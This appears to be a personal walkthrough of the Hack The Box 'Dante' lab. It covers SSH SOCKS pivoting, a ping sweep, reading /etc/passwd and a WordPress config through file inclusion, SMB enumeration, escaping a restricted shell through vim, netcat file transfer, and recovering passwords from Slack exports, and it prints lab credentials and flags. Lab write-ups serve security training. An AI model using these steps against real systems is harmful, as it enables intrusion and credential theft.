









# Establishing a Backdoor & Pivoting to the Internal Subnet (Host 172.16.1.10)

In this case, I don't need to generate a new SSH keypair since there is already a private key that I have copied to my priv\_keys directory in addition to the public key. In this case, I just needed to execute the following command after adding the [127.0.0.0](http://127.0.0.0) socks5 address to proxychain4.conf in etc and disabling the other ones.
```
ssh -D 7777 -f -N balthazar@10.10.110.100 -i priv_keys/id_rsa_2
```

I used balthazar because I need to authenticate with his local password (TheJoker12345!) and the above is\_rsa\_2 file contains the public key from the host machine.

Once the connection is established, this can be verified with netstat. From there, I can then use proxychains to access the internal subnet and execute commands. When using Nmap, only -sT scans work.

ssh -D 7777 -f -N balthazar@10.10.110.100 -i id\_rsa\_2

To access the internal subnet as well, I have seen nmap binary installed on the system from other users. In this case, what I did was to do a ping scan using the below command for the subnet to identify live hosts. From there, I can just feed the results into nmap to conduct a normal scan which should work and cut down vast amounts of time.

```
for i in {1..254} ;do (ping -c 1 172.16.1.$i | grep "bytes from" &) ;done
```

Results from the ping sweep:
```
for i in {1..254} ;do (ping -c 1 172.16.1.$i | grep "bytes from" &) ;done   
64 bytes from 172.16.1.5: icmp_seq=1 ttl=128 time=0.312 ms
64 bytes from 172.16.1.10: icmp_seq=1 ttl=64 time=0.165 ms
64 bytes from 172.16.1.12: icmp_seq=1 ttl=64 time=0.180 ms
64 bytes from 172.16.1.13: icmp_seq=1 ttl=128 time=0.218 ms
64 bytes from 172.16.1.17: icmp_seq=1 ttl=64 time=0.219 ms
64 bytes from 172.16.1.19: icmp_seq=1 ttl=64 time=0.147 ms
64 bytes from 172.16.1.20: icmp_seq=1 ttl=128 time=0.233 ms
64 bytes from 172.16.1.100: icmp_seq=1 ttl=64 time=0.015 ms
64 bytes from 172.16.1.101: icmp_seq=1 ttl=128 time=0.375 ms
64 bytes from 172.16.1.102: icmp_seq=1 ttl=128 time=0.390 ms
```

### Accessing the Internal Subnet 172.16.1.0/24:

# 172.16.1.10

Starting with [172.16.1.10](http://172.16.1.10), I was able to access the site after setting the proxy [127.0.0.1](http://127.0.0.1) with port 9999 in Burpsuite. From there, I visited the website the machine hosts and remembering the LFI vulnerability previously mentioned, I was able to pull the etc/passwd information as shown below:

```
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin messagebus:x:103:106::/nonexistent:/usr/sbin/nologin syslog:x:104:110::/home/syslog:/usr/sbin/nologin _apt:x:105:65534::/nonexistent:/usr/sbin/nologin tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false uuidd:x:107:114::/run/uuidd:/usr/sbin/nologin tcpdump:x:108:115::/nonexistent:/usr/sbin/nologin avahi-autoipd:x:109:116:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin usbmux:x:110:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin rtkit:x:111:117:RealtimeKit,,,:/proc:/usr/sbin/nologin dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin cups-pk-helper:x:113:120:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin speech-dispatcher:x:114:29:Speech Dispatcher,,,:/run/speech-dispatcher:/bin/false avahi:x:115:121:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin kernoops:x:116:65534:Kernel Oops Tracking Daemon,,,:/:/usr/sbin/nologin saned:x:117:123::/var/lib/saned:/usr/sbin/nologin nm-openvpn:x:118:124:NetworkManager OpenVPN,,,:/var/lib/openvpn/chroot:/usr/sbin/nologin hplip:x:119:7:HPLIP system user,,,:/run/hplip:/bin/false whoopsie:x:120:125::/nonexistent:/bin/false colord:x:121:126:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin geoclue:x:122:127::/var/lib/geoclue:/usr/sbin/nologin pulse:x:123:128:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin gnome-initial-setup:x:124:65534::/run/gnome-initial-setup/:/bin/false gdm:x:125:130:Gnome Display Manager:/var/lib/gdm3:/bin/false frank:x:1000:1000:frank,,,:/home/frank:/bin/bash systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin margaret:x:1001:1001::/home/margaret:/bin/lshell mysql:x:126:133:MySQL Server,,,:/nonexistent:/bin/false sshd:x:127:65534::/run/sshd:/usr/sbin/nologin omi:x:998:997::/home/omi:/bin/false omsagent:x:997:998:OMS agent:/var/opt/microsoft/omsagent/run:/bin/bash nxautomation:x:996:995:nxOMSAutomation:/home/nxautomation/run:/bin/bash
```

I thought about where the previous two flags were in the Jame's directory and I decided to test that path out for both found users from the above /etc/passwd path. Turns out, the next flag was in Margaret's Home directory!
```
DANTE{LF1_M@K3s_u5_lol}
```

Now that I have the user flag, I'm thinking I should be able to get a shell somehow through this LFI vulnerability and escalate privileges to get the root flag.


* I may be able to establish a shell with the LFI vulnerability. Check the bookmarked page in Firefox.

            Also check in msfconsole.

* Another thing I need to try is to read text files by downloading them (check same bookmarked page). They will be base64 encoded so it won't execute the PHP code and will allow me to decode them easily when downloaded.
* Also, another potential trick would be to try bruteforcing the ssh login for [172.16.1.10](http://172.16.1.10)  with cewl wordlists both old and new and perhaps other short ones. I know frank, margaret and of course, root all exist in this machine. The hint for the next flag "fake it til' you make it" makes me think about this method of access potentially.

In running a Nikto scan, the following vulnerabilities showed up:

```
+ OSVDB-3268: /css/: Directory indexing found.
+ OSVDB-3092: /css/: This might be interesting...
+ OSVDB-3268: /img/: Directory indexing found.
+ OSVDB-3092: /img/: This might be interesting...
```

```
Nmap scan of 172.16.1.10:
Nmap scan report for 172.16.1.10
Host is up (0.053s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 55.43 seconds
```

When querying AD domain, I found the following information via rpcclient:
```
rpcclient $> querydominfo
Domain: WORKGROUP
Server: DANTE-NIX02
Comment: DANTE-NIX02 server (Samba, Ubuntu)
Total Users: 0
Total Groups: 0
Total Aliases: 0
Sequence No: 1663443344
Force Logoff: -1
Domain Server State: 0x1
Server Role: ROLE_DOMAIN_PDC
Unknown 3: 0x1
```
Domain password information:
```
rpcclient $> getdompwinfo
min_password_length: 5
password_properties: 0x00000000
```

Domain user information for margaret and frank:
```
rpcclient $> lookupnames frank
frank S-1-22-1-1000 (User: 1)
rpcclient $> lookupnames margaret
margaret S-1-22-1-1001 (User: 1)
rpcclient $>
```
Available Network Shares:
```
rpcclient $> netshareenumall
netname: print$
remark: Printer Drivers
path: C:\var\lib\samba\printers
password:
netname: SlackMigration
remark:
path: C:\samba
password:
netname: IPC$
remark: IPC Service (DANTE-NIX02 server (Samba, Ubuntu))
path: C:\tmp
password:
```

Network share information for SlackMigration:

Network share information for IPC$:

Network share information for Print$:

Domain Enumeration:
```
rpcclient $> enumdomains
name:[DANTE-NIX02] idx:[0x0]
name:[Builtin] idx:[0x1]
rpcclient $>
```

SID enumeration:
```
rpcclient $> lsaenumsid
found 6 SIDs
S-1-5-32-550
S-1-5-32-548
S-1-5-32-551
S-1-5-32-549
S-1-5-32-544
S-1-1-0
rpcclient $> lookupsids S-1-5-32-550
S-1-5-32-550 BUILTIN\Print Operators (4)
rpcclient $> lookupsids S-1-5-32-548
S-1-5-32-548 BUILTIN\Account Operators (4)
rpcclient $> lookupsids S-1-5-32-551
S-1-5-32-551 BUILTIN\Backup Operators (4)
rpcclient $> lookupsids S-1-5-32-549
S-1-5-32-549 BUILTIN\Server Operators (4)
rpcclient $> lookupsids S-1-5-32-544
S-1-5-32-544 BUILTIN\Administrators (4)
rpcclient $> lookupsids S-1-1-0
S-1-1-0 \Everyone (5)
rpcclient $>
```

I was finally able to use SMBclient to access the SlackMigration file share by ommitting the "-L" parameter which had caused errors. Then I found a .txt file containing hints similarly to the "todo.txt" file from the beginning of the exercise!:


When using the LFI wordlist I obtained earlier (found here: <https://github.com/Karmaz95/crimson/blob/master/words/exp/LFI>) , I found that the following directories responded with meaningful information. The needed credentials to gain a foothold has to be in here. I will need to decode the response in Base64 for each one of these requests:


Request number 392 yielded results in base64 and when decoding it I received the following output.:
```
<?php
/**
* The base configuration for WordPress
*
* The wp-config.php creation script uses this file during the
* installation. You don't have to use the web site, you can
* copy this file to "wp-config.php" and fill in the values.
*
* This file contains the following configurations:
*
* * MySQL settings
* * Secret keys
* * Database table prefix
* * ABSPATH
*
* @link https://wordpress.org/support/article/editing-wp-config-php/
*
* @package WordPress
*/
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME' 'wordpress' );
/** MySQL database username */
define( 'DB_USER', 'margaret' );
/** MySQL database password */
define( 'DB_PASSWORD', 'Welcome1!2@3#' );
/** MySQL hostname */
define( 'DB_HOST', 'localhost' );
/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8' );
/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );
/**#@+
* Authentication Unique Keys and Salts.
*
* Change these to different unique phrases!
* You can generate these using the {@link https://api.wordpress.org/secret-key/1.1/salt/ WordPress.org secret-key service}
* You can change these at any point in time to invalidate all existing cookies. This will force all users to have to log in again.
*
* @since 2.6.0
*/
define( 'AUTH_KEY',        'put your unique phrase here' );
define( 'SECURE_AUTH_KEY',  'put your unique phrase here' );
define( 'LOGGED_IN_KEY',    'put your unique phrase here' );
define( 'NONCE_KEY',        'put your unique phrase here' );
define( 'AUTH_SALT',        'put your unique phrase here' );
define( 'SECURE_AUTH_SALT', 'put your unique phrase here' );
define( 'LOGGED_IN_SALT',  'put your unique phrase here' );
define( 'NONCE_SALT',      'put your unique phrase here' );
/**#@-*/
/**
* WordPress Database Table prefix.
*
* You can have multiple installations in one database if you give each
* a unique prefix. Only numbers, letters, and underscores please!
*/
$table_prefix = 'wp_';
/**
* For developers: WordPress debugging mode.
*
* Change this to true to enable the display of notices during development.
* It is strongly recommended that plugin and theme developers use WP_DEBUG
* in their development environments.
*
* For information on other constants that can be used for debugging,
* visit the documentation.
*
* @link https://wordpress.org/support/article/debugging-in-wordpress/
*/
define( 'WP_DEBUG', false );
/* That's all, stop editing! Happy publishing. */
/** Absolute path to the WordPress directory. */
if ( ! defined( 'ABSPATH' ) ) {
define( 'ABSPATH', __DIR__ . '/' );
}
/** Sets up WordPress vars and included files. */
require_once ABSPATH . 'wp-settings.php';
```

I was able to login via SSH to the machine with username margaret and her password from the above file. Next, I was then able to escalate to a normal bash shell by using the following command using vim.:
```
:!/bin/sh
```
If the above stop working for some reason, try:

```
# Press ESC key
:set shell=/bin/sh
:shell
```
I need to find a way to escalate privileges to either frank or root. Most likely, frank will be the target here. However, I feel like I'm missing frank's credential in a file somewhere so I need to look once again in the files.

I found the following information from Frank's directory.:
```
]margaret@DANTE-NIX02:/home/frank/Downloads/Test Workspace Slack export May 17 2020 - May 18 2020$ cat users.json
[
    {
        "id": "U013CT40QHM",
        "team_id": "T013LTDB554",
        "name": "htb_donotuse",
        "deleted": false,
        "color": "9f69e7",
        "real_name": "Frank",
        "tz": "America\/Los_Angeles",
        "tz_label": "Pacific Daylight Time",
        "tz_offset": -25200,
        "profile": {
            "title": "",
            "phone": "",
            "skype": "",
            "real_name": "Frank",
            "real_name_normalized": "Frank",
            "display_name": "",
            "display_name_normalized": "",
            "fields": null,
            "status_text": "",
            "status_emoji": "",
            "status_expiration": 0,
            "avatar_hash": "ga341d23f843",
            "email": "HTB_DONOTUSE@protonmail.com",
            "image_24": "https:\/\/secure.gravatar.com\/avatar\/a341d23f843e566bde18c04a566b47f3.jpg?s=24&d=https%3A%2F%2Fa.slack-edge.com%2Fdf10d%2Fimg%2Favatars%2Fava_0002-24.png",
            "image_32": "https:\/\/secure.gravatar.com\/avatar\/a341d23f843e566bde18c04a566b47f3.jpg?s=32&d=https%3A%2F%2Fa.slack-edge.com%2Fdf10d%2Fimg%2Favatars%2Fava_0002-32.png",
            "image_48": "https:\/\/secure.gravatar.com\/avatar\/a341d23f843e566bde18c04a566b47f3.jpg?s=48&d=https%3A%2F%2Fa.slack-edge.com%2Fdf10d%2Fimg%2Favatars%2Fava_0002-48.png",
            "image_72": "https:\/\/secure.gravatar.com\/avatar\/a341d23f843e566bde18c04a566b47f3.jpg?s=72&d=https%3A%2F%2Fa.slack-edge.com%2Fdf10d%2Fimg%2Favatars%2Fava_0002-72.png",
            "image_192": "https:\/\/secure.gravatar.com\/avatar\/a341d23f843e566bde18c04a566b47f3.jpg?s=192&d=https%3A%2F%2Fa.slack-edge.com%2Fdf10d%2Fimg%2Favatars%2Fava_0002-192.png",
            "image_512": "https:\/\/secure.gravatar.com\/avatar\/a341d23f843e566bde18c04a566b47f3.jpg?s=512&d=https%3A%2F%2Fa.slack-edge.com%2Fdf10d%2Fimg%2Favatars%2Fava_0002-512.png",
            "status_text_canonical": "",
            "team": "T013LTDB554"
        },
        "is_admin": true,
        "is_owner": true,
        "is_primary_owner": true,
        "is_restricted": false,
        "is_ultra_restricted": false,
        "is_bot": false,
        "is_app_user": false,
        "updated": 1589810238
    },
    {
        "id": "U014025GL3W",
        "team_id": "T013LTDB554",
        "name": "thisissecretright",
        "deleted": false,
        "color": "4bbe2e",
        "real_name": "Margaret",
        "tz": "Europe\/London",
        "tz_label": "British Summer Time",
        "tz_offset": 3600,
        "profile": {
            "title": "",
            "phone": "",
            "skype": "",
            "real_name": "Margaret",
            "real_name_normalized": "Margaret",
            "display_name": "Margaret",
            "display_name_normalized": "Margaret",
            "fields": null,
            "status_text": "",
            "status_emoji": "",
            "status_expiration": 0,
            "avatar_hash": "g368549a1713",
            "email": "thisissecretright@protonmail.com",
            "image_24": "https:\/\/secure.gravatar.com\/avatar\/368549a1713abb8d1a5ec871da25b0ce.jpg?s=24&d=https%3A%2F%2Fa.slack-edge.com%2Fdf10d%2Fimg%2Favatars%2Fava_0021-24.png",
            "image_32": "https:\/\/secure.gravatar.com\/avatar\/368549a1713abb8d1a5ec871da25b0ce.jpg?s=32&d=https%3A%2F%2Fa.slack-edge.com%2Fdf10d%2Fimg%2Favatars%2Fava_0021-32.png",
            "image_48": "https:\/\/secure.gravatar.com\/avatar\/368549a1713abb8d1a5ec871da25b0ce.jpg?s=48&d=https%3A%2F%2Fa.slack-edge.com%2Fdf10d%2Fimg%2Favatars%2Fava_0021-48.png",
            "image_72": "https:\/\/secure.gravatar.com\/avatar\/368549a1713abb8d1a5ec871da25b0ce.jpg?s=72&d=https%3A%2F%2Fa.slack-edge.com%2Fdf10d%2Fimg%2Favatars%2Fava_0021-72.png",
            "image_192": "https:\/\/secure.gravatar.com\/avatar\/368549a1713abb8d1a5ec871da25b0ce.jpg?s=192&d=https%3A%2F%2Fa.slack-edge.com%2Fdf10d%2Fimg%2Favatars%2Fava_0021-192.png",
            "image_512": "https:\/\/secure.gravatar.com\/avatar\/368549a1713abb8d1a5ec871da25b0ce.jpg?s=512&d=https%3A%2F%2Fa.slack-edge.com%2Fdf10d%2Fimg%2Favatars%2Fava_0021-512.png",
            "status_text_canonical": "",
            "team": "T013LTDB554"
        },
        "is_admin": false,
        "is_owner": false,
        "is_primary_owner": false,
        "is_restricted": false,
        "is_ultra_restricted": false,
        "is_bot": false,
        "is_app_user": false,
        "updated": 1589793792
```

There was a zip file as well in this directory with some files that are protected so I transferred them to my local machine via netcat. After extracting the folder, I was able to read all files. Here's what I found so far.:


```
STARS5678FORTUNE401 - Password for "Ubuntu images"
```



Frank's new password on the Ubuntu box:
```
69F15HST1CX
```

However, the password above for the "ubuntu box" is actually placeholders that were added onto the conversation by Frank when he downloaded and modified the conversation. In this case, I went and explored files in Margaret's directory. If Frank has a copy of the conversation, Margaret must have a copy as well. Sure enough, I found it under the .config/Slack/exported\_data/secure directory under Margaret which displayed the passwords in plaintext!:
```
"text": "I also set you a new password on the Ubuntu box - TractorHeadtorchDeskmat, same username"
```

Full downloaded conversation can be found here:


Root Flag:

I was able to get the root flag by making a simple python script that uses the os module to execute a command to cp the 'flag.txt' file in the root directory to the tmp directory for me to view. It worked!!

Python code:
```
#!/usr/bin/env python
import os
os.system('cp /root/flag.txt /tmp')
```

